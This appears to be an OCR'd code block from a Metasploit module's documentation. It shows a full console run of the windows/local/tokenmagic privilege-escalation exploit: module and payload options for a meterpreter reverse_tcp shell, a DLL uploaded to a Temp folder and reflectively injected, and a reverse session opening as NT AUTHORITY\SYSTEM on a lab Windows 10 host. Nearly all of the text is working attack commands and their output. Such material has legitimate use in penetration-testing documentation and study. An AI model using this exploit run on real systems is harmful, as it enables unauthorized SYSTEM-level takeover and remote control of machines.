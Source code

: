 ```
Note that the System Orchestrator service which loads the overwritten DLL when using the DLL method can take up to 10
minutes to trigger (Accepted: SERVICE, DLL)
   SERVICE_FILENAME  IfoTziL          no        Filename for Service Payload (Random by default).
   SERVICE_NAME      NTSHIUUVp        no        Service Name to use (Random by default).
   SESSION           1                yes       The session to run this module on.
   WRITABLE_DIR                       no        Directory to write file to (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/tokenmagic) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-O5RD7G3 via session ID: 1
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\WindowsCoreDeviceInfo.dll
[*] Running Exploit on DESKTOP-O5RD7G3
[*] Executing TokenMagic PowerShell script
[*] Reflectively injecting exploit DLL into a spare process and triggering the LPE...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[+] Enjoy the shell!
[*] Sending stage (200262 bytes) to 172.16.199.135
[*] Meterpreter session 2 opened (172.16.199.1:4443 -> 172.16.199.135:49803) at 2021-05-14 12:52:58 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-O5RD7G3
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter >
```
